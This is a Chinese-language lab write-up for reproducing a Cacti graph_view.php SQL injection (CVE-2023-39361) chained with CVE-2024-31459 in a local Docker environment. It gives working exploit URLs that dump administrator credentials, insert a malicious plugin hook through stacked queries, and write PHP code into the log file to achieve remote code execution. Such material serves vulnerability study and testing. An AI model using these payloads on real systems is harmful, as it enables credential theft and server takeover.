

# Cacti graph_view.php SQL注入导致远程代码执行漏洞（CVE-2023-39361/CVE-2024-31459）

Cacti是一个全面的网络图形化解决方案，旨在利用RRDTool的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在Cacti 1.2.24及更早版本中，graph_view.php文件存在一个严重的漏洞，当启用guest用户时，未经任何身份验证的攻击者通过'rfilter'参数即可执行SQL注入攻击，最终可能导致远程代码执行。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 环境搭建

执行以下命令启动Cacti 1.2.24服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`进入Cacti界面。默认凭据为admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击"下一步"按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用guest用户。你可以以管理员身份登录，导航至`Configuration -> Authentication`页面，并启用guest用户：


## 漏洞复现

该漏洞位于`graph_view.php`文件中的`grow_right_pane_tree`函数内。当action参数设置为'tree_content'时，用户输入的rfilter参数由`html_validate_tree_vars`函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止SQL注入。

要利用此漏洞，向graph_view.php端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：


由于Cacti支持堆叠查询，你可以利用此漏洞结合[CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)实现本地文件包含。

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO函数将执行并显示：


